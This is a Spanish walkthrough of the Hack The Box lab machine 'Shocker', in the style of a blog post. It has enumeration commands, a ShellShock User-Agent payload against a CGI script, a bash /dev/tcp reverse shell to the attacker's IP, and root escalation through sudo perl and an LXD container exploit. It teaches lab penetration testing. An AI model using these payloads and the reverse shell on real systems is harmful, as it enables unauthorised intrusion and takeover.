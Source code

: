 ```yaml
---
layout: post
title: HTB_Shocker.md
date: 2023/07/10
---
```


# Shocker {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se shocker.

El replay del live se puede ver aqui

[![S4vitaar Shocker maquina](https://img.youtube.com/vi/7BGLph5TWMY/0.jpg)](hhttps://www.youtube.com/watch?v=7BGLph5TWMY)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.56
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.56
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta?           |
| ------ | -------- | ------------------ | -------------------- |
| 80     | http     | Web, Fuzzing       |                      |
| 2222   | ssh      | Conneccion directa | usuario y contraseña |




### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.56
```

Nada interesante aqui

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.56 -oN webScan
```

Nada interesante.

#### Analyzando la web con Firefox {-}

Hay una pagina que nos dice *Don't Bug Me!* y nada mas. Como la maquina se llama Shocker, pensamos directamente al ataque ShellShock

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
```

Encontramos una routa muy interesante que es el `cgi-bin` que es la routa donde si la bash es vulnerable podemos hacer un ataque shellshock.

## Vulnerability Assessment {-}

### ShellShock attack {-}

1. creamos un diccionario de extensiones

    ```bash
    nano extension.txt

    sh
    pl
    py
    cgi
    ```

1. lanzamos nuevamente wfuzz con la extension

    ```bash
    wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extension.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
    ```

Como aqui hemos encontrado un fichero `user.sh` lanzamos un curl para ver lo que es.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh"
```

Ya podemos lanzar el ataque shellshock cambiando la cabezera User-Agent.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; }; /usr/bin/whoami"
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /usr/bin/whoami"
```

Vemos la respuesta shelly quiere decir que estamos en capacidad de ejecutar commandos a nivel de systema, gracias a esta vulnerabilidad.## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad ShellShock {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Entablamos una reverse shell

    ```bash
    curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos shelly y que podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
```

Vemos que estamos en el grupo lxd ;) y ademas podemos ejecutar /usr/bin/perl como root si proporcionar contraseña.

### Escalar privilegios con /usr/bin/perl {-}

```bash
sudo -u root perl -e 'exec "/bin/sh"'
whoami 
#Output
root
```

### Escalar privilegios con LXD {-}

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los passos del exploit

1. En la maquina de attaquante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la `/bin/bash` de la maquina

    - en el contenedor

        ```bash
        cd /mnt/root
        ls
        cd /bin
        chmod 4755 bash
        exit
        ```

    - en la maquina victima

        ```bash
        bash -p
        whoami
        #Output
        root
        ```

